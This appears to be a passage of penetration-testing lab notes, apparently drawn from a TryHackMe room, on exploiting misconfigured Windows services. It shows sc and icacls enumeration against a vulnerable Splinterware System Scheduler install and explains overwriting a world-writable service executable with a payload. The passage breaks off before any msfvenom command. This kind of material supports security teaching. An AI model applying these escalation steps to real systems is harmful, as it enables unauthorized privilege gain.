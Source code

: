 
## General

In Windows, a service is a program that runs in the background to perform a specific function or task. The Service Control Manager (SCM) is a system service that is responsible for starting, stopping, and managing services on the computer. Service misconfiguration refers to the incorrect configuration of a service, which could potentially allow an attacker to exploit the service and gain unauthorized access to the system.

There are several ways in which service misconfiguration could be exploited via the SCM:

-   Starting a service with elevated privileges: An attacker could configure a service to start with higher privileges than intended, which could allow the service to perform actions that the user does not have permission to perform.
    
-   Modifying the properties of an existing service: An attacker could change the properties of an existing service, such as the path to the executable file or the user account under which the service runs, to execute malicious code or to gain unauthorized access to the system.
    
-   Creating a new service: An attacker could create a new service that runs malicious code, potentially allowing the attacker to gain access to the system or to perform other unauthorized actions.
    
-   Stopping or disabling a critical service: An attacker could stop or disable a critical service, such as the firewall or antivirus software, which could leave the system vulnerable to attacks.


## Commands

Windows services are managed by the **Service Control Manager** (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:

Command Prompt
```shell-session
C:\> sc qc apphostsvc
```

Here we can see that the associated executable is specified through the **BINARY_PATH_NAME** parameter, and the account used to run the service is shown on the **SERVICE_START_NAME** parameter.

Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. The DACL can be seen from Process Hacker (available on your machine's desktop):

![Service DACL](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/d8244cfd9d64a7be30f5fb0308fd0806.png)  

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`:

![Service registry entries](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/06c05c134e4922ec8ff8d9b56382c58f.png)  

A subkey exists for every service in the system. Again, we can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**. As you have guessed by now, only administrators can modify such registry entries by default.

- **Insecure Permissions on Service Executable (Example)**

	If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

	To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using `sc`:

	Command Prompt

	```shell-session
	C:\> sc qc WindowsScheduler
	[SC] QueryServiceConfig SUCCESS
	
	SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
	```

	We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

	Command Prompt

	```shell-session
	C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
	C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
	                                  NT AUTHORITY\SYSTEM:(I)(F)
	                                  BUILTIN\Administrators:(I)(F)
	                                  BUILTIN\Users:(I)(RX)
		                              APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
	                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
	
	Successfully processed 1 files; Failed processing 0 files
	```

	And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

	Let's generate an exe-service payload using msfvenom and serve it through a python webserver:
